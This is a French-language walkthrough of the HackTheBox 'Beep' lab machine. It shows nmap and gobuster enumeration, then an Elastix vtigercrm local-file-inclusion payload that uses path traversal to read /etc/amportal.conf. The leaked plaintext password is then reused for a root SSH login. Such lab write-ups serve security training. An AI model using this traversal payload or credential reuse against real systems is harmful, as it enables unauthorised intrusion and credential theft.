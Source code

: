 **Box BEEP**

https://app.hackthebox.eu/machines/Beep

Une petite box sur linux, avec à priori pas mal de chemin vers le root.

**Enumération:**

Le scan nmap montre beaucoup de services différents:
```
nmap -sS -sV 10.10.10.7

Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 11:04 CEST
Nmap scan report for 10.10.10.7
Host is up (0.032s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.20 seconds
```
Il y à un site internet tournant sur le port 80/443, et une interface admin sur le port 10000.
Postfix ressort dans searchsploit comme un vecteur d'élévation de privilége possible, et openSSH est énumérable pour récupérer des utilisateurs.
Le port 111 étant ouvert, je regarde s'il existe un dossier partagé
```
showmount -e 10.10.10.7                                       
clnt_create: RPC: Program not registered
```
Rien d'intéressant de ce coté. Essayons du coté du site web

**Enumération du site**

Premiére surprise, le certificat est expiré. On accepte le risque de sécurité et on découvre une interface Elastix. Le site utilise Php 5.1.6, ce qui ouvre la porte à de l'execution de code à distance, et du scan de dictionnaire. Avant tout essayons de scanner les répertoires du site.
Pour ceci dirb ne pourra être utilsé à cause du certificat expiré. J'utiliserais donc gobuster qui à une option pour ignorer le certificat
```
gobuster dir -k -u https://10.10.10.7 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/06 12:02:41 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 282]
/.htpasswd            (Status: 403) [Size: 287]
/.htaccess            (Status: 403) [Size: 287]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/cgi-bin/             (Status: 403) [Size: 286]                                
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/favicon.ico          (Status: 200) [Size: 894]                                  
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]   
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/] 
/index.php            (Status: 200) [Size: 1785]                                 
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]   
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]   
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]   
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]  
/robots.txt           (Status: 200) [Size: 28]                                   
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/] 
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/] 
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/] 
```
Un passage sur la page admin nous demande de nous authentifier, mais aprés plusieurs erreurs nous ammene sur le panneau de controle d'administration sans être authentifié. Cela nous permet d'avoir accés au service tournant sur cette partie administration, FreePBX 2.8.1.4.

**Exploitation**

Une recherche sur elastix nous donne plusieurs possibilitée d'entrée, dont une faille LFI. Voici le lien qui explique cette faille:
https://www.exploit-db.com/exploits/37637

`#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&actioǹ`

En utilisant cette faille, nous arrivons sur une page avec un fichier de configuration des comptes. 

`view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

La page non formatée est difficile à lire, utiliser view-source permet d'avoir le document plus lisible. Nous trouvons ces informations:
```
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
Le mot de passe administrateur est ici en clair. Comme le ssh est ouvert sur cette machine, il est intéressant d'essayer ce mot de passe administrateur pour voir s'il y à réutilisation des mots de passe
Attention, les protocoles utilisés sont assez ancien, aprés quelques recherches j'ai trouvé comment négocier avec ce serveur SSH en utilisant les algorithme de chiffrement proposés
```
ssh -o KexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7                                    255 ⨯
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
```

Nous sommes root et avons donc accés au deux flags, dans le dossier /root, et dans le dossier /home/fanis.

**Conclusion**

Cette box aura été intéressante, j'aurais appris comment négocier avec d'anciens protocoles, sorti un peu de ma zone de confort en utilisant d'autres outils que ceux auquels j'étais habitués. Je reviendrais surement plus tard sur d'autres méthodes d'accés


